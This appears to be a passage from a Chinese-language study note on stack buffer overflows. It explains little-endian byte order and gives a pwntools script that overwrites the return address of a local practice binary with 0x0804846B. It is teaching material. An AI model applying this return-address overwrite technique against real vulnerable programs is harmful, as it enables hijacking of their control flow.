 ![image-20220113223323592](栈溢出学习.assets/image-20220113223323592.png)

需要注意小端方式存储，所以目标地址`0804846B`覆盖到栈里面应该是这样（上面是低地址）：

```
6B
84
04
08
```



拿pwntools编写exp即可：

```python
from pwn import *

sh = process('./hello')

target = 0x804846B

payload = b'a'*20+b'feng'+p32(target)

sh.sendline(payload)
sh.interactive()
```

注意python3中byte前面要加上b，而python2的exp则不用。

![image-20220113223606794](栈溢出学习.assets/image-20220113223606794.png)
